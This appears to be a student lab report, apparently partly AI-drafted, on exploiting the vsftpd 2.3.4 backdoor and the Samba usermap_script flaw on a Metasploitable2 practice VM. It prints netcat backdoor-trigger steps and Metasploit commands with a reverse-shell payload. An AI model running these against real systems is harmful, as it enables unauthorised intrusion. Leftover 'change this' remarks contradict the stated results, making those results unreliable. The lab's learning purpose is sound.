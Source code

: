 # Lab Report: Metasploitable2 - vsftpd & Samba Exploitation

---

## Table of Contents
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
  - [vsftpd 2.3.4 Backdoor](#vsftpd-234-backdoor)
  - [Samba 3.0.20 Exploit](#samba-3020-exploit)
- [Post-Exploitation](#post-exploitation)
- [Mitigations & Recommendations](#mitigations--recommendations)
- [References](#references)
- [Screenshots](#screenshots)

---

## Objective
The purpose of this lab is to practice penetration testing techniques by exploiting known vulnerabilities in the Metasploitable2 virtual machine, specifically targeting vsftpd 2.3.4 and Samba 3.0.20 services.

---

## Lab Setup
- **Target:** Metasploitable2 VM
- **Attacker:** Kali Linux VM
- **Network:** NAT setup ensuring connectivity between attacker and target
- **Tools Used:** Nmap, Metasploit Framework, Netcat, smbclient

---

## Reconnaissance
open source intelligence (osint) 

Metasploitable 2

A test environment provides a secure place to perform penetration testing and security research. For your test environment, you need a Metasploit instance that can access a vulnerable target. The following sections describe the requirements and instructions for setting up a vulnerable target. Downloading and Setting Up Metasploitable 2 The easiest way to get a target machine is to use Metasploitable 2, which is an intentionally vulnerable Ubuntu Linux virtual machine that is designed for testing common vulnerabilities. This virtual machine (VM) is compatible with VMWare, VirtualBox, and other common virtualization platforms.

Metasploitable 2 is available at:

    https://information.rapid7.com/metasploitable-download.html 

https://sourceforge.net/projects/metasploitable/ 

### Nmap Scan
Performed a comprehensive port scan to identify open services:

```bash
nmap -sV -p 21,139,445 <target-ip>
````

**Results:**

| Port | State | Service      | Version      |
| ---- | ----- | ------------ | ------------ |
| 21   | open  | ftp          | vsftpd 2.3.4 |
| 139  | open  | netbios-ssn  | Samba 3.0.20 |
| 445  | open  | microsoft-ds | Samba 3.0.20 |

---

## Exploitation

### vsftpd 2.3.4 Backdoor Exploit

1. **Description:** vsftpd 2.3.4 contains a malicious backdoor (CVE-2011-2523) that opens a command shell on port 6200 when any username and password is used.

2. **Steps:** 
   To attack the ftp vulnerability, I used netcat.
   
```bash
nc <target-ip> 21
```

* When prompted for username, I entered `exploitingYou:)`
* When prompted for password, I entered `youvebeenhacked`
* After login, connect to port 6200 to get a shell:

```bash
nc -v <target-ip> 6200
```
* NOTE: I used -v here for a more verbose output.
  
3. **Result:** Obtained a root shell on the target system. "whoami", and "ls" command were ran to show root access and files.

---

### Samba 3.0.20 Exploit (username map script)

1. **Description:** Samba 3.0.20 contains a remote code execution vulnerability.

2. **Using Metasploit:**

```bash
msfconsole
(change me below. I used a slightly different method.)
use exploit/multi/samba/usermap_script 
set RHOSTS <target-ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp 
set LHOST <your-ip>
run
```

3. **Result:** Obtained a Meterpreter session with root privileges. (I did not use Meterpreter. Change this)

---

## Post-Exploitation

* Enumerated user accounts
* Checked system information
* Demonstrated ability to upload and execute files
* Captured proof of root access

---

## Mitigations & Recommendations

* Upgrade vsftpd to a non-vulnerable version
* Patch Samba to the latest stable release
* Disable unused services
* Implement firewall rules to restrict access

---

## References

* [Metasploitable2 Official Documentation](https://sourceforge.net/projects/metasploitable/)
* [CVE-2011-2523 - vsftpd 2.3.4 Backdoor](https://www.cvedetails.com/cve/CVE-2011-2523/)
* [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

---

## Screenshots

![Nmap Scan](screenshots/nmap_scan.png)
*Figure 1: Nmap scan results*

![vsftpd Backdoor Shell](screenshots/vsftpd_shell.png)
*Figure 2: vsftpd backdoor shell*

![Meterpreter Session](screenshots/meterpreter_session.png)
*Figure 3: Samba exploit Meterpreter session*

---

*End of Report*

```

---

Would you like me to help generate specific sections with real example outputs or help you embed screenshots?
```
